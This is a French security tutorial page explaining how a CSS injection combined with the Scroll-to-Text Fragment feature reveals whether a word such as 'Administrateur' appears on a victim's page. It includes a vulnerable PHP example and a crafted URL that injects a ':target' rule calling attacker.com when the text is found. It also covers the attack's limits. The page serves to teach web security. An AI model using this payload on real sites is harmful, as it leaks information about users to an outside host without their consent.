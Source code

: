 ```yaml
---
description: 16 Décembre 2022
---
```


# Les injections CSS - Scroll-to-Text Fragment

> Cette exploitation d'une injection CSS va permettre à l'attaquant de savoir si l'occurrence d'un mot est présente ou non sur la page ciblée. Cela peut être utile pour identifier, par exemple, si la victime est connectée en tant qu'administrateur ou non.

## Scroll-to-Text Fragment

Un attaquant peut s'appuyer sur la fonctionnalité de Scroll-to-Text Fragment afin d'exploiter une injection CSS dans l'objectif de connaitre la présence d'un mot ou d'une phrase dans la page Web de sa victime. Les scénarios d'utilisation sont très nombreux, mais il est possible de prendre le cas d'un attaquant souhaitant connaitre le rôle de la victime.

{% hint style="info" %}
La fonctionnalité de lien vers un fragment de texte (Scroll-to-Text Fragment) permet à un utilisateur de créer un lien vers une partie spécifique d'une page en prenant comme référence un texte fournit dans l'URL. Une fois la page chargée, le navigateur mettra le texte recherché en surbrillance et fera défiler l'écran jusqu'à sa position.



La fonctionnalité Scroll-to-Text Fragment n'étant pas un standard, elle n'est donc pas implémentée sur Firefox.
{% endhint %}

En admettant la page vulnérable suivante :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>CSS Injection</title>
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
    </style>
  </head>
  <body>
    <h1>Injection CSS - utilisation de la fonctionnalité Scroll-to-Text Fragment</h1>
    <div>
      <p>Connecté en tant que <?php echo $role ?></p>
    </div>
  </body>
</html>
```
{% endcode %}

La variable PHP `$role` contient le rôle du visiteur authentifié. Elle peut contenir la valeur "Administrateur" ou "Utilisateur". L'attaquant souhaite tout d'abord déterminer si le visiteur de la page est bien l'administrateur du site afin, ensuite, d'effectuer une attaque plus poussée contre lui ; c'est ici que la fonctionnalité Scroll-to-Text Fragment va lui être utile.

{% hint style="info" %}
L'article original concernant cette exploitation est disponible ici : [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)
{% endhint %}

### Text Fragments

Un fragment de texte dans une URL se compose du signe `#` suivi de `:~:text=` et se termine par le texte ciblé (encodé en URL) :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=texte-ciblé
```

En reprenant le code de l'exemple précédent, il est donc possible de mettre en surbrillance le mot ciblé comme ceci :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=Administrateur
```

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Ou alors une phrase entière :&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

Il est également possible de surligner tout un paragraphe en spécifiant le texte du début (`textStart`) et le texte de fin (`textEnd`) séparés par une virgule :&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2) (3).png" alt=""><figcaption></figcaption></figure>

Ou encore d'ajouter des suffixes et des préfixes :&#x20;

```html
#:~:text=[prefix-,]textStart[,textEnd][,-suffix]
```

Une dernière possibilité pouvant être utile est de pouvoir effectuer une multi sélection grâce au caractère `&`. Par exemple :&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

### La pseudo-class :target&#x20;

L'injection CSS et l'utilisation de la pseudo-class `:target`, va permettre de prévenir l'attaquant dans le cas ou le texte recherché a bien été trouvé :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  :target::before {
    content:url(http://attacker.com/isAdmin);
  }
</style>
```
{% endcode %}

Soit l'injection suivante :&#x20;

{% code overflow="wrap" %}
```
http://vulnerable.com/scroll-to-text.php?color=black;}:target::before{content:url(http://attacker.com/isAdmin);#:~:text=Administrateur
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

L'attaque ne passera pas inaperçu pour la victime puisque le texte ciblé sera souligné et un défilement sera effectué si nécessaire :&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Limites de l'attaque

Outre le fait de pouvoir injecter du CSS, l'attaque possède quelques limites. Comme déjà évoqué, elle est assez voyante pour la victime par le surlignage et le défilement.

{% hint style="info" %}
A noter que si le serveur vulnérable présente l'entête HTTP `Document-Policy` avec la valeur `force-load-at-top` alors, le défilement n'aura pas lieu, ce qui peut être un avantage pour l'attaquant.
{% endhint %}

De plus, la fonctionnalité s'active seulement lors d'une navigation vers une page différente, c'est à dire que rafraichir la page ou ouvrir un lien vers la même page ne déclenchera pas l'attaque. Exit également l'iframing de la page vulnérable, la fonctionnalité ne se déclenchera pas dans ce contexte non plus.
